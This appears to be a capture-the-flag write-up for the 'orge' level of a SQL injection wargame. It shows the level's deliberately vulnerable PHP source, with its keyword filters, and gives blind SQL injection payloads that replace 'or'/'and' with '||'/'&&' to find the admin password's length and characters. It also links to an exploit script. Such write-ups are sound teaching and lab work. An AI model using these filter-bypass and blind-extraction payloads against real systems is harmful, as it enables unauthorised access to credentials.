 ```php
query : select id from prob_orge where id='guest' and pw=''
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

Explain:

This lab filter like `level 6 Darkelf`

but now, `pw` must be the same with `pw` get from client

```php
 if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
```

Solve:

using payload to brute forcing length of password

`a' || 1=1 && id='admin' && length(pw)=1#`

using payload to get password from `admin` (substr || &&)

`a' || 1=1 && id='admin' && ascii(substr(pw,1,1))=1#`

[script exploit poc](scripting/l7-orge.py)

END